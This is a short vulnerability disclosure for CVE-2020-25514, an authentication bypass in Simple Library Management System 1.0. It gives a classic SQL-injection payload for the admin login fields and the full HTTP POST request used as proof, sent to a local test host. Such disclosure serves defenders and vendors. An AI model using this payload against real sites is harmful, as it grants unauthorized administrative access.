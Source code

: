 # CVE-2020-25514
#Login Bypass in  Simple Library Management System 1.0

#Vendor - https://www.sourcecodester.com

#Product -https://www.sourcecodester.com/php/14439/simple-library-management-system-project-using-phpmysql.html

#Vulnerability Type - Authentication Bypass

#Affected Component - Login Panel,[ http://<site>/lms/admin.php] http://<site>/lms/admin.php

#Attack Type- Local

#Impact Code execution - true

#Attack Vectors -  Go to Admin Login Panel and try to bypass login. 
#username : admin' or '1'='1 password : admin' or '1'='1

#Proof :

POST /lms/ajax.php?action=login HTTP/1.1

Host: 127.0.0.1

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://127.0.0.1/lms/admin.php

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

X-Requested-With: XMLHttpRequest

Content-Length: 55

Connection: close

Cookie: PHPSESSID=56c45f486f1d79c238482cec933a92a3


username=admin'+or+'1'%3D'1&password=admin'+or+'1'%3D'1
